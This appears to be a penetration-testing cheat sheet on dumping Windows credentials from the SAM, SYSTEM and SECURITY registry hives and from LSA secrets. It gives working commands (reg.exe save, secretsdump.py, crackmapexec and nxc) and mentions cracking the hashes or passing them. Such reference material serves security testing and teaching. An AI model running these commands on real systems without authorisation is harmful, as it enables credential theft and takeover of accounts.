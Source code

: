 The **SAM (Security Account Manager) database** in Windows is a system file that stores user account information and security credentials for the local computer. It contains usernames, hashed passwords, and group memberships for accounts managed on the local machine. The SAM database is critical for the authentication process and is used by the Local Security Authority (LSA) to verify user credentials during login.



| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |
Copy Registry Hives:

```bash
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

Copy files to attacking system, using SMB or some other method, then:

```bash
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Crack with hashcat or use PTH.

Remotely, needs administrator level credentials:

```bash
crackmapexec smb x.x.x.x -u <user> -p <pass> --local-auth --sam
```

### LSA

The **Local Security Authority (LSA)** in Windows is a key component of the operating system responsible for enforcing security policies, managing user authentication, and handling logon processes. It verifies user credentials by interacting with the Security Account Manager (SAM) database and other authentication mechanisms, such as Kerberos or NTLM. The LSA temporarily stores clear text credentials in memory for specific functions, such as enabling single sign-on (SSO) or delegating credentials for remote authentication.

The LSA also manages security tokens, which define a user’s permissions and privileges after successful authentication. It plays a crucial role in maintaining system security by enforcing access controls and ensuring the integrity of authentication processes.

```bash
nxc smb x.x.x.x -u <user> -p <pass> --local-auth --lsa
```